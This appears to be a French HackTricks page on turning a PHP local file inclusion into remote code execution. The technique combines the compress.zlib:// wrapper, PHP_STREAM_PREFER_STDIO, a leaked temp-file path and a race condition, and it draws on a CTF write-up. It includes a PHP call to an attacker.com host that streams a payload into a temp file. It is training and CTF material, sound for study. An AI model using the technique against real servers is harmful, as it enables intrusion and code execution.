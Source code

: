 # LFI2RCE Via compress.zlib + PHP_STREAM_PREFER_STUDIO + Path Disclosure

{{#include ../../banners/hacktricks-training.md}}

### `compress.zlib://` et `PHP_STREAM_PREFER_STDIO`

Un fichier ouvert en utilisant le protocole `compress.zlib://` avec le drapeau `PHP_STREAM_PREFER_STDIO` peut continuer à écrire des données qui arrivent à la connexion plus tard dans le même fichier.

Cela signifie qu'un appel tel que :
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
Enverra une requête demandant http://attacker.com/file, puis le serveur peut répondre à la requête avec une réponse HTTP valide, garder la connexion ouverte et envoyer des données supplémentaires quelque temps plus tard qui seront également écrites dans le fichier.

Vous pouvez voir cette information dans cette partie du code php-src dans main/streams/cast.c :
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
### Condition de course vers RCE

[**Ce CTF**](https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer) a été résolu en utilisant le truc précédent.

L'attaquant fera en sorte que le **serveur victime ouvre une connexion en lisant un fichier depuis le serveur de l'attaquant** en utilisant le protocole **`compress.zlib`**.

**Tant que** cette **connexion** existe, l'attaquant **exfiltrera le chemin** vers le fichier temporaire créé (il est divulgué par le serveur).

**Tant que** la **connexion** est encore ouverte, l'attaquant **exploite un LFI en chargeant le fichier temporaire** qu'il contrôle.

Cependant, il y a une vérification dans le serveur web qui **empêche le chargement de fichiers contenant `<?`**. Par conséquent, l'attaquant abussera d'une **Condition de course**. Dans la connexion qui est encore ouverte, l'**attaquant** **enverra la charge utile PHP APRÈS** que le **serveur web** a **vérifié** si le fichier contient les caractères interdits mais **AVANT qu'il ne charge son contenu**.

Pour plus d'informations, consultez la description de la Condition de course et le CTF dans [https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf_writeup/20191228-hxp36c3ctf/#includer)

{{#include ../../banners/hacktricks-training.md}}
